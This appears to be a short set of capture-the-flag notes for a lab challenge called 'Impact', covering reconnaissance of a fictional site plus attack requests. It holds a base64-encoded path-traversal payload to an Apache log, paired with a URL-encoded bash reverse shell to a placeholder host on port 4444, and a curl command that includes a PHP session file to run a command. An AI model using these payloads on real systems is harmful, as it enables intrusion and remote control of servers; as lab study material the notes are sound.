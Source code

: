 #+title: Impact
#+author: gabriel

* intro
A hacker group organises cyber attacks against companies and offers the sensitive data they obtain for sale with cryptocurrency on the website called "Impact". This hacker group is increasing the list of target companies every day. Your task is to register as an ordinary customer on this website and collect information about the hacker group and its manager. Good luck in your mission!

* info gathering


: /webadmin/tables/datatables.php

*found email* ->
: zerotrace@anonymail.hv

*admin email* ->
: zerotrace@secretmail.hv


http://impact.hv/search.php?name=Li4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vdmFyL2xvZy9hcGFjaGUyL2FjY2Vzcy5sb2c=&cmd=bash%20-c%20'bash%20-i%20>%26%20%2Fdev%2Ftcp%2Fyour_ip%2F4444%200>%261'

*User agent injection ->*
: [11:10][]~ ✮ curl -v "http://impact.hv/search.php?name=../../../../../../../var/lib/php/sessions/sess_95j17bn4agoa0kql3k7mtl1o0f&cmd=sleep%2010"
